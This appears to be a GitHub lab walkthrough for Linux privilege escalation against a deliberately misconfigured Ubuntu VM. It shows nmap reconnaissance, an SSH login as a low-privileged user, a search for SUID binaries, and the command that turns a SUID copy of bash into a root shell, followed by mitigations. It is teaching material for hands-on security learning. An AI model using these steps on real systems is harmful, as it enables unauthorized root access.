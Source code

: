 # 🔓 Privilege Escalation – SUID Bash Exploit

This scenario demonstrates how an attacker can escalate from a low-privileged user to root by abusing a misconfigured SUID `bash` binary found on the system.

---

## 🛰️ Step 1: Discover the Target

We begin by identifying the target machine’s IP on the local network.

From the **attacker machine (Kali Linux)**:

### 🔍 1.1 Perform a ping sweep

```bash
$ sudo nmap -sn 10.10.10.0/24
```
This will scan the entire /24 subnet to detect live hosts.

### We discovered Target machine IP Address

```bash
Nmap scan report for 10.10.10.135
Host is up (0.0010s latency).
MAC Address: 00:0C:29:47:C5:07 (VMware)
```
This confirms the target VM is online at 10.10.10.135.

## 🔍 Step 2: Scan for Open Ports
Once the target IP is known, scan for open ports to identify entry points.
## 2.1 Run TCP SYN Scan on Port 22 (SSH)
```bash
$ nmap -sS -p 22 10.10.10.135
```
## SSH Port is Open
```bash
PORT   STATE SERVICE
22/tcp open  ssh
```
Port 22 is open — meaning we can attempt an SSH connection

## 🔐 Step 3: SSH Access as Low-Privileged User

Assuming valid credentials for a low-privileged user were obtained (victim:attacker123), we attempt an SSH login:

```bash
$ ssh victim@10.10.10.135
```
Once connected, verify our current identity:
```bash
victim@sam-vm:~$ whoami
victim

victim@sam-vm:~$ id
uid=1001(victim) gid=1001(victim) groups=1001(victim)
```
We confirm:

- The user victim is not part of the sudo group

- No elevated privileges are present

➡️ Next, we enumerate the system for misconfigurations or vulnerable binaries.

## 🔍 Step 4: Enumerate SUID Binaries
We search for files with the SUID permission bit set (4000), which could allow privilege escalation:

```bash
victim@sam-vm:~$ find / -perm -4000 -type f 2>/dev/null
```
Among the results, we spot a suspicious one:

```bash
victim@sam-vm:~$ ls -l /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Jul 10 13:03 /tmp/rootbash
```
### ⚠️ What makes this dangerous?
- The s in -rwsr-sr-x means it runs with the file owner’s privileges (which is root)

- It's a copy of /bin/bash, placed in /tmp, and world-executable

#### This means any user can run it and get root privileges.

## 🚀 Step 5: Exploit the SUID Bash Binary

Launch it with the -p flag to preserve SUID root privileges:
```bash
victim@sam-vm:~$ /tmp/rootbash -p
```
Now inside the new shell:

```bash
rootbash-5.1# whoami
root

rootbash-5.1# id
uid=0(root) gid=0(root) groups=0(root)
```
🎉 We have successfully escalated from a limited user (victim) to root.

---

## Post-Exploitation

Clean up:
```bash
rootbash-5.1# rm /tmp/rootbash
```

##  Mitigation

- Never assign the SUID bit to binaries like bash, python, or other shells

- Regularly audit SUID binaries:
  ```bash
     $ find / -perm -4000 -type f
     ```
- Secure and monitor /tmp for unauthorized binaries

## 📸 Screenshots!

### nmap Ping Sweep
![Nmap Ping Sweep](./screenshots/01-nmap-ping-sweep.png)

### SSH-Login 
![SSH_login](./screenshots/02-ssh-login-victim.png)

### SUID Bash Found
![Suid-bash](./screenshots/03-suid-bash-found.png)

### Root Access Confirmed
![Root-access](./screenshots/04-root-access-confirmed.png)

---

## Conclusion

In this lab, we demonstrated a complete exploitation chain starting from reconnaissance to gaining root access using a misconfigured SUID Bash binary. This is a classic example of how a small misconfiguration can lead to full system compromise.



## Credits

This walkthrough is part of the **Linux Privilege Escalation Lab Series** created for hands-on learning.

👨‍💻 Lab Author: [Syed Ata Ur Rahaman](https://github.com/Ataur1502)  
🔗 GitHub Repository: [linux-privesc-lab](https://github.com/Ataur1502/linux-privesc-lab)  
🛠️ Tools Used: `nmap`, `ssh`, `find`, `bash`, `Linux VM`, `VMware`  
🎯 Target: Ubuntu VM with intentional misconfigurations



## 📢 Disclaimer

This lab is intended **strictly for educational and ethical use**. Always get proper authorization before testing any system.

---







